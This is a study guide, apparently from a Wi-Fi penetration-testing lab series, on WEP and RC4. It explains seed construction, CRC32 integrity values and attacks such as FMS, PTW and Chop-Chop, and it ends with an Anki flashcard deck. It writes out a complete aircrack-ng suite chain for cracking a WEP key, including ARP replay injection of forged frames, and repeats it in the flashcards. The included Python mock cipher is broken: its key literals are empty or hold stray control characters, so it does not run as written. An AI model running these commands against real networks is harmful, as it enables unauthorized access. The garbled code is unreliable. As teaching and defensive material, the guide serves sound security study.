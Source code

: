 # Chain #18: WEP & RC4 — seed, ICV, mock cipher, and practical attacks

## Goal & Scope

Short, hands‑on introduction to WEP and RC4:

- WEP primitives (IV, key sizes, RC4, ICV/CRC32).
- How WEP builds an RC4 seed (IV + key) and encrypts a frame.
- CRC32 / ICV generation and a runnable `mockcipher.py` that demonstrates the full flow.
- Practical attack overview: IV collection, ARP replay, FMS / PTW, and KoreK Chop‑Chop ideas.
- Canonical lab commands (explained) and remediation notes.

---

## Summary (one‑page)

WEP uses a 24‑bit IV concatenated with a per‑device secret key (commonly 40‑bit or 104‑bit) as the RC4 seed. RC4 produces a keystream which XORs with `plaintext || ICV` (ICV = CRC32(plaintext)). The IV is transmitted in clear, and its small size leads to IV reuse; attackers exploit this with statistical (FMS/PTW) or packet‑building attacks (ARP replay) to recover keys quickly.

---

## Key details & canonical commands (explained)

**Canonical dummies used below:**

- Managed Interface: `wlan0`
- Monitor Interface: `wlan0mon`
- AP BSSID: `AA:BB:CC:DD:EE:FF`
- Client MAC: `11:22:33:44:55:66`
- Channel: 6
- Capture Filename: `WPA-01.cap`

### 1) Put interface into monitor mode

```
sudo airmon-ng check kill
```

- Kills interfering services (NetworkManager, `wpa_supplicant`).

```
sudo airmon-ng start wlan0
```

- Starts monitor mode; typical monitor interface is `wlan0mon`.

### 2) Capture only the target AP on channel 6 and write captures

```
airodump-ng wlan0mon -c 6 --bssid AA:BB:CC:DD:EE:FF -w WPA
```

- `-c 6`: lock channel to 6.    
- `--bssid`: focus on the AP.
- `-w WPA`: write capture files with prefix `WPA` (creates e.g. `WPA-01.cap`, `WPA-01.ivs`).

### 3) Accelerate IV collection with ARP replay (packet building)

```
aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 11:22:33:44:55:66 wlan0mon
```

- `-3`: ARP replay mode — injects forged ARP requests to provoke predictable responses and many IVs.
- `-b`: BSSID of AP. 
- `-h`: source MAC used in forged frames.

**Notes:** requires injection‑capable adapter and may be blocked by AP/client filters. Produces noise.

### 4) Attempt key recovery from IVs

```
aircrack-ng -z -b AA:BB:CC:DD:EE:FF WPA-01.ivs
```

- `-z`: use IV statistical methods (PTW/FMS) on `.ivs` files.
- If cap file used: `aircrack-ng WPA-01.cap -b AA:BB:CC:DD:EE:FF`.

**Interpretation:** aircrack-ng will display candidate keys when the statistical attack succeeds.

---

## Mock cipher: seed + CRC32 + RC4 (runnable)

This mock combines your SeedGen + CRC32 examples into a single script that demonstrates how the IV and key form the RC4 seed, how ICV is created, and how final frame = IV || ciphertext is produced. Save as mockcipher.py and run python3 mockcipher.py.

```python
# mockcipher.py
from Crypto.Random import get_random_bytes
from Crypto.Cipher import ARC4
import zlib

packetplaintext = b'Something Sensitive'
crc32 = zlib.crc32(packetplaintext)
IV = get_random_bytes(3)
key = b''          # 40-bit
Seed64 = IV + key
key104 = b'	

'  # 104-bit
Seed128 = IV + key104
keystream = ARC4.new(Seed64)
keystreamB = ARC4.new(Seed128)
crc32byte = crc32.to_bytes(4, 'big')
ICVMessage = packetplaintext + crc32byte
msg = keystream.encrypt(ICVMessage)
msgB = keystreamB.encrypt(ICVMessage)
finalmsg = IV + msg
finalmsgb = IV + msgB
print('CRC32 Checksum:', crc32)
print('Initialization Vector:', IV)
print('ICV Message:', ICVMessage)
print('Final Message 64-bit Seed:', finalmsg)
```

---

## Short attack taxonomy & when to use each method

- **FMS**: original statistical attack exploiting biased RC4 outputs for weak IVs. Needs many IVs.
- **PTW**: improved statistical attack requiring fewer IVs — preferred when IVs are available.
- **KoreK Chop‑Chop**: per‑packet attack that uses CRC32 behavior to iteratively recover plaintext bytes by observing accept/reject behavior.
- **Packet‑building (ARP replay / fragmentation)**: used to generate IVs quickly when a client responds to forged frames.
- **Per‑packet brute force**: generally impractical except for very small keyspaces/packets.

---

## Defense (short)

- Remove WEP support; migrate to WPA2/WPA3.
- Disable legacy modes on APs when possible.
- Monitor for injection traffic and ARP replay patterns.

---

## Anki Deck (tab-separated, finishes the document)

```text
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6

Q8v2N5k1R3	Basic	Ops::WiFi Gym::Chain 18: WEP	Why is WEP vulnerable despite using 40/104-bit keys?	WEP uses a 24-bit IV sent in clear; IV reuse (small IV space) enables statistical attacks (FMS/PTW) that recover keys quickly.	wep
A4m7C2x9L6	Basic	Ops::WiFi Gym::Chain 18: WEP	Which two phases make up the RC4 algorithm?	KSA (Key Scheduling Algorithm) and PRGA (Pseudo-Random Generation Algorithm).	wep
Z1k6H3p8B2	Basic	Ops::WiFi Gym::Chain 18: WEP	How is the RC4 seed formed in WEP (describe bytes)?	By concatenating the 3-byte IV with the device key (e.g., 5 bytes for 40-bit, 13 bytes for 104-bit) to form the seed.	wep
M9t3F6q1S8	Basic	Ops::WiFi Gym::Chain 18: WEP	What does WEP append to the plaintext before encryption?	A 4-byte CRC32 checksum (ICV) is appended to the plaintext before encryption.	wep
V7d1P4n6E3	Basic	Ops::WiFi Gym::Chain 18: WEP	Which Python function computes CRC32 in the mock scripts?	<code>zlib.crc32()</code>	wep
H2c8R5j4W9	Basic	Ops::WiFi Gym::Chain 18: WEP	Which Python class is used to create the RC4 keystream in the mock script?	<code>ARC4.new(seed)</code> (from <code>Crypto.Cipher.ARC4</code>).	wep
K5s9L2a7Y1	Basic	Ops::WiFi Gym::Chain 18: WEP	List the WEP encryption steps in order (short form).	1) Generate IV. 2) Seed = IV||Key. 3) RC4 KSA/PRGA → keystream. 4) CRC32 append → ICVMessage. 5) XOR with keystream → ciphertext. 6) Transmit IV||ciphertext.	wep
N6b3U8e2D5	Basic	Ops::WiFi Gym::Chain 18: WEP	What does the KoreK “Chop-Chop” attack exploit?	It exploits CRC32 validation by trimming/modifying ciphertext bytes and using accept/reject behavior to infer plaintext bytes iteratively.	wep
P3g7J1v9T4	Basic	Ops::WiFi Gym::Chain 18: WEP	Why does attaching the IV in clear weaken WEP?	Attackers know part of RC4’s seed (the IV) and can focus on the remaining key bytes; IV reuse multiplies the advantage.	wep
R8y2D6m4Q7	Basic (type in the answer)	Ops::WiFi Gym::Chain 18: WEP	What command starts monitor mode and creates <code>wlan0mon</code>?	<code>sudo airmon-ng start wlan0</code>	wep
S4j9K2h6M1	Basic (type in the answer)	Ops::WiFi Gym::Chain 18: WEP	What airodump-ng command captures AP <code>AA:BB:CC:DD:EE:FF</code> on channel <code>6</code> and writes prefix <code>WPA</code> (creating <code>WPA-01.cap</code>)?	<code>airodump-ng wlan0mon -c 6 --bssid AA:BB:CC:DD:EE:FF -w WPA</code>	wep
T1n6E3w8Z5	Basic (type in the answer)	Ops::WiFi Gym::Chain 18: WEP	What aireplay-ng command runs ARP replay to collect IVs (use canonical dummies)?	<code>aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 11:22:33:44:55:66 wlan0mon</code>	wep
U9a5F1q3C8	Basic (type in the answer)	Ops::WiFi Gym::Chain 18: WEP	What is the aircrack-ng command to try IV-based cracking (PTW/FMS) against <code>WPA-01-01.ivs</code> for BSSID <code>AA:BB:CC:DD:EE:FF</code>?	<code>aircrack-ng -z -b AA:BB:CC:DD:EE:FF WPA-01-01.ivs</code>	wep
W2e7B4t9H6	Basic (type in the answer)	Ops::WiFi Gym::Chain 18: WEP	When using <code>aircrack-ng -z -b AA:BB:CC:DD:EE:FF WPA-01-01.ivs</code>, which flag enables PTW/FMS statistical methods?	<code>-z</code>	wep
Y6p1C8r2V4	Basic	Ops::WiFi Gym::Chain 18: WEP	Which statistical attack usually requires fewer IVs: FMS or PTW?	PTW (Pyshkin-Tews-Weinmann).	wep
J3m8X5k1A9	Basic	Ops::WiFi Gym::Chain 18: WEP	Why do two runs of the mock cipher produce different ciphertexts with the same key bytes?	Because the IV is randomly generated each run, so the RC4 seed and resulting keystream differ.	wep
L7q2H9d4S3	Basic (type in the answer)	Ops::WiFi Gym::Chain 18: WEP	What Python expression converts an integer CRC32 to 4 big-endian bytes?	<code>crc32.to_bytes(4, 'big')</code>	wep
C5r9N1u6P2	Basic	Ops::WiFi Gym::Chain 18: WEP	Give two drawbacks of ARP replay / packet-building attacks.	They are noisy/detectable and may be blocked by AP/client filters; require an injection-capable adapter.	wep
D8f4V2y7K1	Basic	Ops::WiFi Gym::Chain 18: WEP	What is the short defensive recommendation for WEP-enabled networks?	Migrate off WEP (use WPA2/WPA3), disable legacy WEP support, and monitor for injection-like ARP bursts.	wep
B9z3T6a1R8	Basic	Ops::WiFi Gym::Chain 18: WEP	What is the canonical mockcipher filename referenced in this chain?	<code>mockcipher.py</code>	wep
```
